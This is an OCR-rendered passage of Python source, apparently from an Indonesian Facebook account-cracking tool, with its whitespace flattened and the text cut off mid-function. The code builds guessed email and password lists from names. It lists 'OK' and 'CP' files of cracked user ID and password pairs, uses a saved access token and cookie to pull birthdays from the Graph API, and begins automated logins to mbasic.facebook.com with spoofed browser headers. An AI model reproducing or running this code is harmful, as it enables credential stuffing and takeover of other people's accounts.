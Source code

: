 ___ngentod___nano___ in["4"]: 		___nano___bandid_ = "@outlook.com" #<========= BUAT DUMP EMAIL OUT LOK 		nama = input(f"\n{P}[{K}•{P}] Masukan nama : {W}") 		jumlah = int(input(f"{P}[{K}•{P}] Masukan limit : {W}")) 		for z in range(jumlah): 			x +=1 			dump.append(nama+str(x)+___nano___bandid_+"|"+nama) 			sys.stdout.write(f"\r{P}[{K}•{P}] Proses pengambilan id sukses mengambil [{W}{len(dump)}{P}]  id");sys.stdout.flush() 	setting() detek = [] def cek_opsi_cp(): # <========== CEK AKUN SESI 	nom, no = [], 0 	try:ok = os.listdir('CP') 	except:sys.exit(f"\n{P}[{K}•{P}]{M} File cp not found") 	for x in ok: 		nom.append(x) 		no+=1 		try:jum= open('CP/'+x,'r').readlines() 		except:continue 		print(f"{P}[{W}0{no}{P}] {x} - {I}{len(jum)} {P}Akun !!") 	exc = input(f"\n{P}[{K}•{P}] Masukan nomor : {W}") 	file = nom[int(exc)-1] 	detek.append('file') 	for data in open('CP/'+file,'r').read().splitlines(): 		ua = 'Mozilla/5.0 (Linux; Android 11; M2101K7BNY Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/91.0.4472.120 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/323.0.0.46.119;]' 		try:id,pw = data.split('|') 		except:id,pw,t = data.split('|')[0],data.split('|')[1],data.split('|')[2] 		cek_opsi(id,pw,ua) 	exit(f"\r{P}[{K}•{P}] Check opsi telah selesai") opsi = [] def sesi(res): # <========== MH SP HK 	response = parser(res,'html.parser') 	form = response.find('form',{'method':'post'}) 	data = {x.get('name'):x.get('value') for x in form.find_all('input',{'type':['hidden','submit']})} 	r = parser(ses.post('https://m.facebook.com'+form.get('action'),data=data).text, 'html.parser') 	for i in r.find_all('option'): 		opsi.append(i.text) 	return opsi def hasil(): #<========= CHEK FILE CP DAN OK 	print(f""" {P}[{W}01{P}] Check results accounts ok {P}[{W}02{P}] Check results accounts cp {P}[{W}03{P}] Back to menu \n""") 	__kentod__ = input(f"{P}[{K}•{P}] Masukan pilihan : {W}") 	if __kentod__ in ['1']: #<========= CHEK RESULTS OK 		try:vin = os.listdir('OK') 		except FileNotFoundError: 			print(f"\n{P}[{K}•{P}]{M} File not found");exit() 		if len(vin)==0: 			print(f"\n{P}[{K}•{P}]{M} File not results");exit() 		else: 			cih = 0 			lol = {} 			for isi in vin: 				try:hem = open('OK/'+isi,'r').readlines() 				except:continue 				cih+=1 				if cih<10000: 					nom = '0'+str(cih) 					lol.update({str(cih):str(isi)}) 					lol.update({nom:str(isi)}) 					print(f"{P}[{W}{nom}{P}] {I}{isi} {U}{len(hem)}") 				else: 					lol.update({str(cih):str(isi)}) 					print(f"{P}[{W}{nom}{P}] {I}{isi} {U}{len(hem)}") 			geeh = input(f"\n{P}[{K}•{P}] Pilih nomor : {W}") 			try:geh = lol[geeh] 			except KeyError: 				print(f"\n{P}[{K}•{P}]{M} Input yang anda masukan salah");exit() 			try:lin = open('OK/'+geh,'r').read().splitlines() 			except: 				print(f"\n{P}[{K}•{P}]{M} File not found");exit() 			nocp=0 			for cpku in range(len(lin)): 				cpkuni=lin[nocp].split('|') 				print(f"{U}--------> {I}{cpkuni[0]}|{cpkuni[1]}");time.sleep(0.03) 				nocp +=1 			input(f"\n{P}[{K}•{P}] Cek selesai tekan enter");exit() 	elif __kentod__ in ['2']: #<========= CHECK RESULTS CP 		try:vin = os.listdir('CP') 		except FileNotFoundError: 			print(f"\n{P}[{K}•{P}]{M} File not found");exit() 		if len(vin)==0: 			print(f"\n{P}[{K}•{P}]{M} File not results");exit() 		else: 			cih = 0 			lol = {} 			for isi in vin: 				try:hem = open('CP/'+isi,'r').readlines() 				except:continue 				cih+=1 				if cih<10000: 					nom = ''+str(cih) 					lol.update({str(cih):str(isi)}) 					lol.update({nom:str(isi)}) 					print(f"{P}[{W}{nom}{P}] {I}{isi} {U}{len(hem)}") 				else: 					lol.update({str(cih):str(isi)}) 					print(f"{P}[{W}{nom}{P}] {I}{isi} {U}{len(hem)}") 			geeh = input(f"\n{P}[{K}•{P}] Masukan nomor : {W}") 			try:geh = lol[geeh] 			except KeyError: 				print(f"\n{P}[{K}•{P}]{M} Input yang anda masukan salah");exit() 			try:lin = open('CP/'+geh,'r').read().splitlines() 			except: 				print(f"\n{P}[{K}•{P}]{M} File not found");exit() 			nocp=0 			for cpku in range(len(lin)): 				cpkuni=lin[nocp].split('|') 				print(f"{U}--------> {K}{cpkuni[0]}|{cpkuni[1]}");time.sleep(0.03) 				nocp +=1 			input(f"\n{P}[{K}•{P}] Cek selesai tekan enter");exit() 	elif __kentod__ in ['3']: 		menu() #<========= FUCKER ER MENU TOOLS def cek_opsi(idf,pw,ua): # <========== CEK OPSI 	akun = '' 	try: 		token = open('token.txt','r').read() 		bas = {"cookie":open('cookie.txt','r').read()} 		ttl = ses.get(f'https://graph.facebook.com/{idf}?fields=birthday&access_token={token}',cookies=bas).json()['birthday'] 		m, d, y = ttl.split('/') 		m = tete[m] 		akun += f""" {P}[{W}•{P}]{W}----{P}[ {I}{waktu()} {P}] [ {I}{tanggal} {P}] {W} | {W} |_____{P}Userid         : {K}{idf} {W} |     |____{P}Password  : {K}{pw} {W} | \n""" 		mek = f"{idf}|{pw}|{day} {month} {year}" 		if 'file' in detek:pass 		else:open('CP/'+nano_nana,'a').write(mek+'\n') 	except: 		month = "" 		day = "" 		year = "" 		akun += f""" {P}[{W}•{P}]{W}----{P}[ {I}{waktu()} {P}] [ {I}{tanggal} {P}] {W} | {W} |_____{P}Userid         : {K}{idf} {W} |     |____{P}Password  : {K}{pw} {W} | \n""" 		if 'file' in detek:pass 		else:open('CP/'+nano_nana,'a').write(idf+'|'+pw+'\n') 	try: 		h2 = {'host':'mbasic.facebook.com','accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','accept-encoding':'gzip, deflate','accept-language':'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7','cache-control':'max-age=0','origin':'https://www.facebook.com','referer':'https://www.facebook.com','sec-ch-ua':'" Not A;Brand";v="99", "Chromium";v="101"','upgrade-insecure-requests':'1','user-agent': ua} 		res = ses.get('https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8',headers = h2).text 		ress = parser(res, 'html.parser') 		form = ress.find('form',{'method':'post'}) 		data2 = {x.get('name'):x.get('value') for x in form.find_all('input',{'type':['submit','hidden']})}
